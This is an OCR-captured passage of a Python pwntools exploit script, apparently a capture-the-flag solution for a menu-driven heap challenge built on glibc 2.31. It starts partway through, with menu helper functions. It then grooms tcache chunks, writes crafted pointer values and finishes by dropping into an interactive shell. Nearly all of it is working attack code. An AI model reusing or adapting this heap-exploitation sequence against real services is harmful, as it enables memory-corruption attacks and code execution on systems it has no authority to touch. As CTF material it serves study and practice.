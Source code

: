 ```python
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'2')
        io.sendlineafter(b'index:\n', str(idx).encode('utf-8'))
    else:
        io.sendlineafter(b'Action:', b'2')
        io.sendlineafter(b'index:', str(idx).encode('utf-8'))
def a(idx, dat,recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'3')
        io.sendlineafter(b'index:\n', str(idx).encode('utf-8'))
        io.sendafter(b'hieroglyph:\n', dat)
    else:
        io.sendlineafter(b'Action: ', b'3')
        io.sendlineafter(b'index:', str(idx).encode('utf-8'))
        io.sendafter(b'hieroglyph:', dat)

def pwn(dbg = 0):
    if dbg:
        gdb.attach(io,gdbscript="""
        set follow-fork-mode parent
        set $glibc_src_dir = "./glibc-2.31/"
        source ~/add_src.py
        b execve
        b *__libc_calloc+731
        """)
    for i in range(35):
        c()
    d(0)
    a(0, p64(0x10)+b'A')
    d(0)
    a(0, b'\x10')
    c()
    c()
    sleep(1)
    a(36, p64(0)+p64(0x21))
    d(10)
    d(1)
    a(36, p64(0)+p64(0x400))
    d(1)
    a(1,p64(0xfffffffffffff548))
    c()
    c()
    a(38,p64(0xfffffffffff57fa4))
    d(6)
    d(5)
    d(4)
    a(4,p64(0xffffffffffffff80))
    a(1,p64(0xffffffffffffff88))
    c()
    c()
    c()
    a(41,p64(0)+p64(0)) # rdx = *(qword *)(&tachebin[0]+0x10)
    d(9)
    d(8)
    d(7)
    a(7,p64(0xffffffffffffff20))
    a(1,p64(0xfffffffffffffff8))
    c()
    c()
    c()
    a(44,p64(0xfffffffffff1371b))
    io.interactive()
pwn()
```